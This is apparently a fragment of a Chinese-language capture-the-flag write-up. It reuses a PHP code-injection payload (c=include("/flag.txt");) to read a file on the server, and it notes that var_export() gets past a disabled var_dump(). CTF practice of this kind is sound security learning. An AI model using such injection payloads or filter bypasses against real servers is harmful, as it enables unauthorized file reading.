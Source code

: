 ![image-20250404163310898](./assets/image-20250404163310898.png)



同样利用上题的payload直接出flag

```
c=include("/flag.txt");
```

![image-20250404163324698](./assets/image-20250404163324698.png)



然后我试了一下，var_dump()被禁用，但是var_export()还是可以

![image-20250404163344243](./assets/image-20250404163344243.png)

![image-20250404163421230](./assets/image-20250404163421230.png)